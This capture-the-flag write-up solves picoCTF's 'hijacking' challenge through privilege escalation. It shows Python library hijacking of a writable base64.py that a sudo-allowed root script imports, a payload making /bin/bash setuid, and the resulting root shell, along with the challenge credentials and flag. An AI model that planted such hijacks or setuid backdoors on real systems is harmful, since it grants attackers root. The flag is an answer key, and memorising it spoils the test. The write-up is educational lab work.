




### hijacking

#Medium #BinaryExploitation #picoCTF2023 #privilege_escalation

Author: Theoneste Byagutangaza

#### Description

Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.

```
saturn.picoctf.net 51345
Username: picoctf
Password: cjWvSK+PS7
```


##### Solution:

```css

┌─[✔]──[alpha@speed:🍑]──[~]:
└──╼ $ ssh -p 51345 picoctf@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:51345 ([13.59.203.175]:51345)' can't be established.
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:51345' (ED25519) to the list of known hosts.
picoctf@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoctf@challenge:~$ 
```

```css
picoctf@challenge:~$ ls -la
total 24
drwxr-xr-x 1 picoctf picoctf   59 Jan 27 13:55 .
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Jan 27 13:44 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw------- 1 picoctf picoctf   34 Jan 27 13:46 .python_history
-rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py
-rw------- 1 picoctf picoctf 3781 Jan 27 13:55 .viminfo
```

```css
picoctf@challenge:~$ cat .server.py 
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)  

```

The `sudo -l` command is used in Unix-like operating systems to list the privileges that the current user has when executing commands with `sudo`

```css
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
picoctf@challenge:~$ 

```

just run the `.server.py` using sudo and python3

```css
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

### **Why is `sys.path` important?**

- **Module Importing**: Python uses `sys.path` to locate modules and packages. If a module isn't found in any of the directories listed in `sys.path`, you'll get an `ImportError`.
    
- **Customizing Imports**: You can modify `sys.path` at runtime to add or remove directories, which can be useful for importing modules from non-standard locations.
    
- **Debugging**: If you're having trouble importing a module, checking `sys.path` can help you understand where Python is looking for the module.

```css
picoctf@challenge:~$ /usr/bin/python3
Python 3.8.10 (default, May 26 2023, 14:05:08) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
>>> exit()

```

`picoctf@challenge:~$ ls -la /usr/lib/python3.8/`



`rwxrwxrwx`: Shows the permissions for three groups of users:
- **First group** (`rwx`): Permissions for the file owner (read, write, execute).
- **Second group** (`rwx`): Permissions for the group (read, write, execute).
- **Third group** (`rwx`): Permissions for others (read, write, execute).

```css
picoctf@challenge:~$ vi /usr/lib/python3.8/base64.py 
```





```css
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
total 4
d--------- 1 root root   6 Sep 26 19:30 .
drwxr-xr-x 1 root root  51 Jan 27 13:43 ..
-rw-r--r-- 1 root root 103 Sep 26 19:30 metadata.json
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 

```

```css
picoctf@challenge:~$ vi /usr/lib/python3.8/base64.py 
```



```css
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
total 4
d--------- 1 root root   6 Sep 26 19:30 .
drwxr-xr-x 1 root root  51 Jan 27 13:43 ..
-rw-r--r-- 1 root root 103 Sep 26 19:30 metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_5a7b5866}", "username": "picoctf", "password": "cjWvSK+PS7"}sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname

```


2nd method

open ` vi /usr/lib/python3.8/base64.py`
paste the below code
```css
import os
os.system("chmod +s /bin/bash")
```

now run server using sudo

```css
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
picoctf@challenge:~$ /bin/bash
bash-5.0$ 
bash-5.0$ exit
exit
picoctf@challenge:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
picoctf@challenge:~$ /bin/bash -p
bash-5.0# ls
bash-5.0# pwd
/home/picoctf
bash-5.0# cd /
bash-5.0# ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev	 home  lib32  libx32  mnt    proc  run	 srv   tmp  var
bash-5.0# cd challenge/
bash-5.0# ls
metadata.json
bash-5.0# cat metadata.json 
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_5a7b5866}", "username": "picoctf", "password": "cjWvSK+PS7"}bash-5.0# 

```

```css
bin  boot  challenge  dev  etc	home  lib  lib32  lib64  libx32  media	mnt  opt  proc	root  run  sbin  srv  sys  tmp	usr  var
bash-5.0# cd root
bash-5.0# ls
bash-5.0# pwd
/root
bash-5.0# ls -la
total 12
drwx------ 1 root root   23 Sep 26 19:30 .
drwxr-xr-x 1 root root   51 Jan 28 07:20 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Sep 26 19:30 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
bash-5.0# cat .flag.txt 
picoCTF{pYth0nn_libraryH!j@CK!n9_5a7b5866}
bash-5.0# 

```